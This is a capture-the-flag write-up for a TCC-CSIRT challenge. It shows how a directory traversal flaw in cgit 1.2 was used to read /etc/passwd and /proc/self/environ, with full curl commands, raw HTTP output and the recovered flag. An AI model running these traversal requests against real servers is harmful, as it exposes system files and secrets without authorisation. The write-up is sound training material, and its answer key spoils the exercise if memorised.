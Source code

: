 LORE: Chapter 1: Travel
======================================

## Task

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

The entry point to LORE is at http://intro.lore.tcc.

## Solution

Open link from the entry point portal. App looks like cgit but there is just information about restricted access. Look in the source code, there is commented section with URL /cgit.cgi. Try it manually, it's working. There are two git repositories. In bottom is version of cgit: 1.2. This version has known vulnerability: directory traversal which allows to serve any file on filesystem. Let's try it with curl:

```
curl -v http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../etc/passwd
```

Depth of directory is needed to test, this was working. Disadvantage is that we can't list directory content. If we look in the sam-operator application, we can see that the flag is in environment variables. Let's assume that it's true for this task. So, let's try file /proc/1/environ. But it has empty content... We can look to /etc/hosts file where we can see comment about kubernetes environment. So it's probably kubernetes container. In kubernetes should work reading file /proc/self/environ. Let's try it:

```
 curl -v http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../proc/self/environ --output -
* Host cgit.lore.tcc:80 was resolved.
* IPv6: (none)
* IPv4: 10.99.24.82
*   Trying 10.99.24.82:80...
* Connected to cgit.lore.tcc (10.99.24.82) port 80
* using HTTP/1.x
> GET /cgit.cgi/foo/objects/?path=../../../proc/self/environ HTTP/1.1
> Host: cgit.lore.tcc
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Tue, 29 Oct 2024 17:47:07 GMT
< Content-Type: application/octet-stream; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Content-Disposition: inline; filename="objects/../../../proc/self/environ"
< Expires: Tue, 29 Oct 2024 17:52:07 GMT
< Last-Modified: Tue, 29 Oct 2024 17:47:07 GMT
< 
FLAG=FLAG{FiqE-rPQL-pUV4-daQt}HTTP_HOST=cgit.lore.tccHTTP_X_REQUEST_ID=6275dc7ef6e35e739efe26d88adc3528HTTP_X_REAL_IP=10.200.0.37HTTP_X_FORWARDED_FOR=10.200.0.37HTTP_X_FORWARDED_HOST=cgit.lore.tccHTTP_X_FORWARDED_PORT=80HTTP_X_FORWARDED_PROTO=httpHTTP_X_FORWARDED_SCHEME=httpHTTP_X_SCHEME=httpHTTP_USER_AGENT=curl/8.10.1HTTP_ACCEPT=*/*PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binSERVER_SIGNATURE=<address>Apache/2.4.61 (Debian) Server at cgit.lore.tcc Port 80</address>
SERVER_SOFTWARE=Apache/2.4.61 (Debian)SERVER_NAME=cgit.lore.tccSERVER_ADDR=192.168.73.80SERVER_PORT=80REMOTE_ADDR=192.168.73.122DOCUMENT_ROOT=/var/www/htmlREQUEST_SCHEME=httpCONTEXT_PREFIX=CONTEXT_DOCUMENT_ROOT=/var/www/htmlSERVER_ADMIN=[no address given]SCRIPT_FILENAME=/var/www/html/cgit.cgiREMOTE_PORT=38548GATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/1.1REQUEST_METHOD=GETQUERY_STRING=path=../../../proc/self/environREQUEST_URI=/cgit.cgi/foo/objects/?path=../../../proc/self/environSCRIPT_NAME=/cg* Connection #0 to host cgit.lore.tcc left intact
it.cgiPATH_INFO=/foo/objects/PATH_TRANSLATED=/var/www/html/foo/objects/   
```

And we have our flag: FLAG=FLAG{FiqE-rPQL-pUV4-daQt}